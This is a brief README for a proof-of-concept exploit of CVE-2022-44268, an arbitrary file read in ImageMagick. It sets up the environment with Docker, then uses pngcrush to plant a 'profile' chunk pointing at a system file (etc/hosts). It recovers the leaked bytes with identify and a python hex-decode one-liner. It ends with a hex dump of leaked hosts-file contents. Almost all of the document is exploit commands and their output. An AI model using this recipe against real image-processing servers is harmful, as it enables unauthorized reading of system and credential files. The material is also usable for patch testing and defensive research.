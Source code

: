 # QuickStart

```sh
$ docker build .
$ docker run -v $(pwd)/images:/images -it $(docker build -q .)
$ cd /images
$ pngcrush -text a "profile" "etc/hosts" temp1.png
$ identify -verbose a.png # => get HEX_VALUE
$ # (quit)
```

```
$ python3 -c 'print(bytes.fromhex("HEX_VALUE"))'
```

# References

* https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

3132372e302e302e31096c6f63616c686f73740a3a3a31096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30096970362d6c6f63616c6e65740a666630303a3a30096970362d6d636173747072656669780a666630323a3a31096970362d616c6c6e6f6465730a666630323a3a32096970362d616c6c726f75746572730a3137322e31372e302e32096563356330373930336431630a